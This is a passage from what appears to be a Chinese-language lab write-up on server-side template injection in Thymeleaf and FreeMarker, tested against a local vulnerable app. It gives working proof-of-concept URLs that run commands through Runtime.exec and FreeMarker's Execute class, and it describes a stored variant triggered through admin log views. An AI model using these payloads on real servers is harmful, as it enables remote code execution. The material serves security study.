 ![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758162744490-ca2c92d0-a838-40ae-a084-0c5795c644d3.png)

PoC：

```plain
http://127.0.0.1:8888/vulnapi/SSTI/thymeleaf/vul?lang=__${T(java.lang.Runtime).getRuntime().exec(%27calc.exe%27)}__::.x
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758162950057-d04aedc4-6024-4de8-9732-64177aa7d10d.png)

2. Thymeleaf模板片段参数可控

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758163008660-c41596b9-28ba-4bcd-b529-95823490ace9.png)

PoC：

```plain
http://127.0.0.1:8888/vulnapi/SSTI/thymeleaf/fragment/vul?section=__${T(java.lang.Runtime).getRuntime().exec(%27calc.exe%27)}__
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758163152394-58c92fb3-5037-4c18-a309-17dd869f060a.png)

3. url作为视图名

根据spring boot定义，如果controller无返回值，则以GetMapping的路由为视图名称，即将请求的url作为视图名称，调用模板引擎去解析，在这种情况下，我们只要可以控制请求的controller的参数，一样可以造成RCE漏洞

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758163510088-f3c7b458-25c0-4c82-b68b-3ad69ca0b213.png)

PoC：

```plain
http://127.0.0.1:8888/vulnapi/SSTI/doc/vul/__$%7BT(java.lang.Runtime).getRuntime().exec('calc.exe')%7D__
```

这条请求会让服务器在日志中记录如下一行：`[vul] SSTI payload: __${T(java.lang.Runtime).getRuntime().exec('calc.exe')}__`。如果日志查看页面使用Thymeleaf渲染，并且日志内容被直接放入模板（例如 `<div th:utext="${logEntry.message}">`），当管理员查看日志时，如果日志查看界面存在SSTI，这条日志中的表达式就会被执行。

4. FreeMaker模板注入

模板文件的内容是可控的，而且显式设置了`TemplateClassResolver.UNRESTRICTED_RESOLVER`。这是最致命的配置，它允许模板调用任意Java类的静态方法和构造方法。

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758164246556-078f3f7a-e136-48a5-925a-474cf56c897c.png)

PoC：

```plain
http://127.0.0.1:8888/vulnapi/SSTI/freemarker/vul?file=indexxx.ftl&content=%3C%23assign%20ex%3d%22freemarker%2etemplate%2eutility%2eExecute%22%3fnew%28%29%3E%20%24%7b%20ex%28%22whoami%22%29%20%7d
```

URL解码后是：

```plain
http://127.0.0.1:8888/vulnapi/SSTI/freemarker/vul?file=indexxx.ftl&content=<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("whoami") }
```
